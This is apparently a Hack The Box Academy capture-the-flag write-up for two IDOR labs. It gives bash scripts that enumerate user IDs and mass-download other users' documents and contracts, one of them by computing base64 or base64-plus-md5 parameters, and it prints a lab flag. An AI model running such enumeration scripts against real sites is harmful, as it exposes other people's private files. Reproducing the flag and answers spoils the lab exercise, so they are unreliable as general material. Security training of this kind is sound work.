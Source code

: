 ## HTB Academy Lab Solutions

### Lab 1: Mass Document Enumeration

**Target:** `http://94.237.60.55:37765`

**Objective:** Find flag in documents from first 20 users

**Solution:**
```bash
#!/bin/bash
url="http://94.237.60.55:37765"

for i in {1..20}; do
    # Get document links for each user
    for link in $(curl -s "$url/documents.php?uid=$i" | grep -oP "\/documents.*?\.(pdf|txt)"); do
        wget -q $url/$link
    done
done

# Find the .txt file with flag
ls -la *.txt
cat *.txt
```

**🎯 Flag:** `HTB{4ll_f1l35_4r3_m1n3}`

### Lab 2: Encoded Contract Bypass

**Target:** `http://94.237.54.192:58374`

**Objective:** Download contracts from first 20 employees using hash bypass

**Solution Method 1: Calculate contract parameter**
```bash
#!/bin/bash
url="http://94.237.54.192:58374"

for i in {1..20}; do
    # Calculate: base64(uid) -> md5  
    hash=$(echo -n $i | base64 -w 0 | md5sum | tr -d ' -')
    curl -sOJ -X POST -d "contract=$hash" "$url/download.php"
done

# Find non-empty file with flag
ls -lAS contract_*
cat contract_*.pdf | grep HTB
```

**Solution Method 2: Calculate filename directly**
```bash
#!/bin/bash
url="http://94.237.54.192:58374"

for i in {1..20}; do
    # Direct filename calculation
    hash=$(echo -n $i | base64 -w 0)
    curl -sOJ "$url/download.php?contract=$hash"
done
```
